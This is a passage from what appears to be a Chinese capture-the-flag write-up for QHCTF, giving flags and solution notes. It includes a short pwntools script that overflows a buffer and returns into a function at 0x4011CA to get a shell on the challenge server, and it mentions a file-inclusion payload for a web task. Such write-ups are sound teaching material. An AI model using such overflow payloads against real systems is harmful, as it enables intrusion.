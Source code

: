 ```
# QHCTF{63bd6c44-3d5f-4acd-8aa1-99c8f1abaed5}
```

## Pwn

### Easy_Pwn | FINISHED

ret2text，0xGame做过，直接找/bin/sh的地址就行

![](https://seandictionary.top/wp-content/uploads/2025/01/c569d2ba-15a2-4ae7-bb90-687fc9769a55.png)

```
from pwn import*
addr = "challenge.qihangcup.cn:34879".split(":")
io=remote(addr[0],addr[1])

payload= b'A'*80 + b'B'*8 + p64(0x4011CA) 
io.sendline(payload)
io.interactive()

# QHCTF{1f5cf23b-8f48-4b65-bedf-23db65262678}
```

## web

### eazy-include | FINISHED

观察是文件包含，尝试双写绕过等方法后均无效

使用脚本生成payload如下

![](https://seandictionary.top/wp-content/uploads/2025/01/image-8-1024x606.png)
